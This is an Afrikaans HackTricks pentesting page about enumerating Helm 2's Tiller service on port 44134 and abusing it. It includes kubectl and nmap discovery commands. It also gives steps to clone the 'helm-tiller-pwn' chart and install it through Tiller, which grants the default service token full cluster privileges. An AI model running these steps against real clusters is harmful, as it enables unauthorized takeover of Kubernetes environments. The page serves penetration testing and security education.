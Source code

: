 {% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Basiese Inligting

Helm is die **pakketbestuurder** vir Kubernetes. Dit stel jou in staat om YAML-lêers te pak en dit in openbare en private repositories te versprei. Hierdie pakkette word **Helm Charts** genoem. **Tiller** is die **diens** wat standaard op poort 44134 loop en die diens bied.

**Standaard poort:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# Enumeration

As jy **pods en/of dienste** van verskillende name ruimtes kan **opnoem**, noem hulle op en soek vir diegene met **"tiller" in hul naam**:
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
Voorbeelde:
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
U kan ook probeer om hierdie diens te vind deur die poort 44134 te kontroleer:
```bash
sudo nmap -sS -p 44134 <IP>
```
Sodra jy dit ontdek het, kan jy met dit kommunikeer deur die kliënt helm toepassing af te laai. Jy kan gereedskap soos `homebrew` gebruik, of kyk na [**die amptelike vrystellingsbladsy**](https://github.com/helm/helm/releases)**.** Vir meer besonderhede, of vir ander opsies, sien [die installasie gids](https://v2.helm.sh/docs/using\_helm/#installing-helm).

Dan kan jy **die diens opnoem**:
```
helm --host tiller-deploy.kube-system:44134 version
```
## Privilege Escalation

Deur die standaard is **Helm2** in die **namespace kube-system** met **hoë bevoegdhede** geïnstalleer, so as jy die diens vind en toegang daartoe het, kan dit jou toelaat om **bevoegdhede te eskaleer**.

Alles wat jy hoef te doen is om 'n pakket soos hierdie te installeer: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) wat die **standaard diens token toegang tot alles in die hele kluster sal gee.**
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
In [http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) het jy die **verklaring van die aanval**, maar basies, as jy die lêers [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) en [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) binne _helm-tiller-pwn/pwnchart/templates/_ lees, kan jy sien hoe **alle die voorregte aan die standaardtoken gegee word**.


{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
